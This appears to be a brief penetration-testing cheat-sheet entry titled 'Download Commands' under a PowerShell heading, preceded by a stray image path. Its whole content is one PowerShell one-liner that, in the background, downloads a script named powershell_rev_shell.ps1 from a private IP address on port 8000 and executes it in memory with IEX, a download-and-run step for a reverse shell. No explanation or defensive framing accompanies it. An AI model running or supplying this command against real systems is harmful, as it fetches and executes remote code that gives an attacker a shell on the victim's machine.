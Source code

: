 # Download Commands

##### Powershell

START /B "" powershell -c IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.187:8000/powershell_rev_shell.ps1')
